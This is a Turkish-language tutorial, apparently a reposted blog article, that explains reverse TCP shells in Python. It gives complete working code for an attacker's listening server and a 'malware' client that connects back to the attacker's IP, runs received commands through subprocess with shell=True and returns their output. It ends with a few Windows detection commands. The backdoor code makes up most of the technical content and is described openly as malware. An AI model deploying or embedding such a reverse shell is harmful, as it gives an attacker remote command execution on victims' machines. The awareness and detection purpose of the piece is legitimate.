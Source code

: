 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Python Reverse TCP Shell (Socket)
![Python Reverse TCP Shell (Socket)](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/1-python-socket-programming.png)

**Python**  ile  **Reverse TCP Shell**  yönteminden ve bir malware’in sisteme bulaştığı zaman saldırgana nasıl backdoor (arka kapı) açtığından bahsedip, kod bloğumuz içinde yer alacak satırlarları açıklayacağız. Yazımızın sonunda ise farkındalık oluşturmak adına birkaç linux ve windows komutundan bahsedeceğim.

Günümüzde gerek network katmanında gerekse host veya server katmanında dışarıdan gelebilecek bağlantılar için firewall’larda port kısıtlamaları son derece önem gösterilerek yapılmaktadır. Server üzerinde istenilmeyen servislerin aktif edilmeyerek socket açmaması, son kullanıcı bilgisayarlarına dışarıdan gelen tüm bağlantıların kapatılması, alınan önlemlerden bir kısmı diyebiliriz. Bunca güvenlik önlemi alınırken saldırganlarda boş durmadı ve “ biz sisteme sızamıyorsak onlar bizim ayağımıza gelsin” yöntemini geliştirdiler. Peki bu nasıl oluyor ? Bunun birçok yöntemi var, server sistemlerde kullanılan uygulamanın zaafiyeti olmasından kaynaklanan bir açıktan tutun bir malware’in sisteme bulaşmasına ve bu zararlı yazılımın saldırgana backdoor ile bağlanmasını sağlamaya kadar gidiyor. Buradaki kilit kelime “ **socket** ”.

![Saldirgan Bekleyis](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/2-Socket.png)
*VE HACKER, SOCKET AÇARAK BEKLEYİŞE GEÇER…*

## **Nedir bu Socket?**

Network üzerinde çalışmasını istediğiniz bir uygulama veya servis olduğu zaman ethernet kartınızın ip adresi ile uygulamanın çalışması için verilen port bilgisi birleşir (socket) ve bu ikili uygulamanıza gelecek istekleri karşılamak için dışarıya bağlantı açar. İnternet üzerinden bağlandığınız web sitelerini buna örnek gösterebiliriz. Browser’ınıza bir site adresi yazdığınızda “**python4hackers.com:80**” diye çalışır. Siz her ne kadar “80” portunu görmesenizde (80 haricinde görürsünüz) python4hackers server’larına bu istek, “**ip:port**” isteği olarak gider ve python4hackers server üzerinde çalışan IIS veya Apache socket’in karşılığı olan uygulamayı kullanıcıya döndürür (Server tarafında bu socket açıksa).

	import socket #Socket oluşturmak için kullandığımız modül

	port=7790 #Saldırganın dinleyeceği port adresi
	ip="192.168.0.32" #Saldırgan'ın dış dünya ile bağlantısını sağlayan IP adresi
	
	def baglanti():
	    Socket = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
	    Socket.bind((ip,port))
	    Socket.listen(1)

	    socketaddr,ipaddr= Socket.accept()
	    print('Baglanti gerceklesti',ipaddr)

	    while True:
	        komut= input("Shell> ")
	        if 'cikis' in komut:
	            socketaddr.send('cikis')
	            socketaddr.close()
	            break
	        else:
	            socketaddr.send(komut)
	            print(socketaddr.recv(1024))
	baglanti()

Görüldüğü üzere server-client mimarisi bir uygulama yazıyorsanız, python’da socket kütüphanesini kullanıyorsunuz. Oluşturduğumuz fonksiyonu açıklarsak;

`Socket=socket.socket()` ile yeni bir **socket** oluşturduk.

`socket.AF_INET` ile çağırarak **IPv4** model bir socket olacağın belirttik.

`socket.SOCK_STREAM` ile **TCP** temelli bir haberleşme olacağını belirttik (SOCK_DGRAM udp için).

`Socket.bind((ip,port))` hatırlarsanız socket tanımını yaparken hep **ip:port** ikilisi diye bahsetmiştik. İşte burada da oluşturduğumuz Socket’e ip:port bilgisini atadık ve çalıştığı makinada (saldırgan makina) interface’in IP ve hangi port adresini dinleyeceğini söyledik. *"0.0.0.0"* yaparsanız üzerindeki tüm ip almış interface’leri dinler.

`Socket.listen(1)` aynı anda **kaç bağlantıyı dinleyeceğini** belirttik.

`socketaddr,ipaddrr=Socket.accept()`  oluşturduğumuz **socket’e gelecek bağlantıları kabul etmek için** accept()’i çağırdık ve client tarafından açtığımız socket’e bağlantı geldiği zaman *size iki liste elemanı döndürür*, karşı tarafla oluşan socket objesini ve bağlanan makinanın ipadresi:port bilgisi.

`while` döngüsünde, bağlantı oluştuğu zaman, raw_input() ile **saldırgandan komut girmesini bekliyoruz.** Girilen bu komutda “cikis” adli bir kelime geçiyorsa socket’i kapatmasını `socketaddr.close()` yani bağlantıyı sonlandırmasını, geçmiyorsa da girilen komutu, oluşan bağlantı socket’inde `socketaddr.send(komut)`  yardımı ile karşı tarafa göndermesini (malware yüklü makina).

`print socketaddr.recv(1024)` *TCP bir bağlantı olduğu için* gönderdiğimiz **komuta karşılık gelen paketi’in 1 Mb’lık değerini** ekrana yazıyoruz.

`baglanti()` komutu ile de fonksiyonumuzu çağırıyoruz yani çalıştırıyoruz.
##
Gelelim şimdi malware yüklü veya client tarafına.

	import socket
	import subprocess

	port=7790
	ip="192.168.0.32"
	def baglanti():
	    Socket=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	    Socket.connect((ip,port))

	    while True:
	        komut = Socket.recv(1024)

	        if 'cikis' in komut:
	            Socket.close()
	            break
	        else:
	            CMD=subprocess.Popen(komut, shell=True, stdout=subprocess.PIPE,stderr=subprocess.PIPE)
	            Socket.send(CMD.stdout.read())
	            Socket.send(CMD.stderr.read())

	baglanti()​

Bir önceki komut dizinimizde detaylı olarak Python’da socket oluşturmayı gösterdiğim için burada fazla detaya girmiyorum.

`subprocess` modülü **alt işlemler oluşturmanıza** (bir işlem çalışıyorken aynı anda başka bir işlemi alt işlem olarak çalıştırmanıza) ve bu işlemin sonucunda dönen girdi/çıktı/hata değerlerini yöneterek *PIPE ile bağlamanızı* **sağlar**.

`Socket.connect((ip,port))` ile saldırgan makinamıza **bağlanma talebi yolladık.**

`komut=Socket.recv(1024)` bir önceki komut dizinimizde **saldırganın raw_input ile gönderdiği komutu,** *komut adlı değişkenimize atıyoruz* ve komut içinde cikis yazıyorsa(saldırgan bu komutu yollamıssa) socket’i sonlandırıyoruz (sürekli açık kalıp, bir sonraki aşamada socket kullanılıyor demesin diye).

`CMD.subprocess.Popen(komut, shell= True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)` kullanmamızın nedeni bir üst işlem ile aynı anda çalışacağını belirttik ve (komut) adlı değişkenimizi argüman olarak çağarıp, shell=True diyerek shell’i çağardık ve argümanımızı buraya yazdık. Normalde shell değerini injection ataklara karşı false yapmamızı önerirler ama bizim işimiz zaten bu ..

bir alt satırda yazan `socket.send(CMD.stdout.read())` ve `socket.send(CMD.stderr.read())` subprocess işleminde dönen çıktıyı ve hatayı okuyarak socket’e yani saldırgana yolluyoruz. Böylece saldırgan raw_input ile bir komut yolladığında, malware yüklü client makinamız bu komutu alıyor, subprocess ile shell’e yazıyor, dönen cevabı saldırgana açılan socket üzerinden yolluyor.

Evet Gelelim bir ekran görüntüsü ile bu yazdığımızı açıklamaya. Benim test ortamımda (VirtualBox) Windows 7 (Malware yüklü client), bir de Kali Linux yüklü saldırgan dediğim makinam var.

![Windows & Kali Machine](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/3-python-socket-programming.png)
Şimdi tek yapmamız gereken saldırgan makinada SocketServer.py scriptimizi çalıştıralım ve client tarafından malware’in çalışıtırıldığı zamanki durumu görelim.

![Attacker-Victim](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/4-python-socket-programming.png)
Gördüğünüz gibi kurban makinamız malware’i çalıştırdı ve saldırgan makina reverse TCP shell alarak, windows üzerinde bulunduğu dizinde neler olduğunu görmen için “dir” komutunu çalıştırdı. İşlemlerini bitirdikten sonrada “cikis” komutu ile socket’i kapattı. Tabi bu yaptığım örnek sadece  _reverse TCP shell nedir?_  sorusuna cevap niteliğinde basit client-server uygulamasıydı. Günümüzde birçok malware analiz edildiği zaman “7777” portunu kullandığınıda dip not olarak eklemek isterim. Gelir bir de analiz aşamasında client makinada neler oluyor çok ufak ona bakalım.

`netstat -naob` (yönetici yetkisi ile) komutunu çalıştırarak TCP veya UDP üzerinden bağlantı kurmuş makinaları görebilirsiniz. “o” parametresi size işlem id’yi, “b” parametresi ile o işlem id’ye karşılık gelen uygulama adını gösterir.

![python-socket-programming4](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/5-python-socket-programming.png)
Gördüğünüz gibi client makinamız saldırgan ip adresine “6161 ” bağlantı kurmuş. Tabi bu sizin için anormal bir trafik olduğunu düşündürüp, birde bu uygulamanın hangi serisleri çalıştırdığına bakmanız ihtiyacını doğuruyor.

`tasklist /svc` ilede çalışan uygulamalara atanan servislerin listesini gösterir.

![python-socket-programming5](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/6-python-socket-programming.png)
Malware kendini hiçbir servise bind etmemiş, tabi bizimki masum bir malware olduğu için bu böyle. Normalde siz bu işlem id’sini gördüğünüzde o işlemi sonlandıracağını tahmin ettiği için kendini başka bir servise bind eder ve daha detaylı bir analiz yapmanızı gerektirir.

**Not: Bu işlem için saldırgan makinanız ile client aynı network’de değilse, saldırgan uygulamanız için modem veya firewall’dan NAT tanımlaması yapmanız gerekir.**

Evet arkadaşlar basit anlamda bu yazımızda Reverse TCP shell’i anlatmaya çalıştık, umarım amaca hizmet edebilmişizdir. Bir sonraki yazımızda görüşmek üzere.

[Kaynak](http://python4hackers.com/python-network-hacking-tools/python-reverse-tcp-shell-socket-create.html "Saygı ve Özlemle...")
________________________________
📃 **Yandex.Disk Bünyemizde 900GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.